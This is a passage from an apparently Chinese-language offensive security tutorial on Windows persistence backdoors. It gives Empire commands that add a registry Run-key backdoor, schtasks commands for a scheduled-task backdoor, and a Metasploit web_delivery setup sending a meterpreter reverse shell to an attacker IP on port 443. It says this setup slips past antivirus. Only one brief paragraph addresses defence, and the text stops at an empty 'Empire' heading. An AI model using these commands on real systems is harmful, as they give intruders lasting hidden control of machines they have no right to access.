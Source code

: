 运行后，会在目标主机的启动项里增加一个命令

```csharp
usemodule persistence/userland/registry
set Listener dayu
set RegPath HKCU:Software\Microsoft\Windows\CurrentVersion\Run
execute
```

当管理员登陆系统时，后门就会运行，反弹成功!

注销或者重启后，后门就自动运行了

进入桌面自动闪过cmd命令框

kali就上线了！

### 注册表后门防范措施

杀毒软件针对此类后门有专门的查杀机制，当发现系统中存在后门时会弹出提示框。根据提示内容， 采取相应的措施，即可删除此类后门

计划任务后门
------

### 手上

计划任务在Windows7及之前版本的操作系统中使用at命令调用，在从Windows8版本开始的操作系 统中使用`schtasks`命令调用。

计划任务后门分为`管理员权限`和`普通用户权限`两种。管理员权限的后门 可以设置更多的计划任务，例如重启后运行等。  
计划任务后门的基本命令如下。该命令表示每小时执行一次notepad.exe

```csharp
schtasks /Create /tn Updater /tr notepad.exe /sc MINUTE /mo 1
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8dab2129370a138d9d85c62fcc1c8e1fc596cd01.png)

删除话 这个命令就可以

```csharp
schtasks /Delete /tn Updater
```

### MSF

使用Powershell payload web delivery模块，可以模拟攻击者在目标系统中快速建立会话的行为。因 为该行为不会被写入磁盘，所以安全防护软件不会对该行为进行检测

```csharp
use exploit/multi/script/web_delivery 
set target 2
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.253.9
set lport 443
set URIPATH /
exploit
```

### Empire

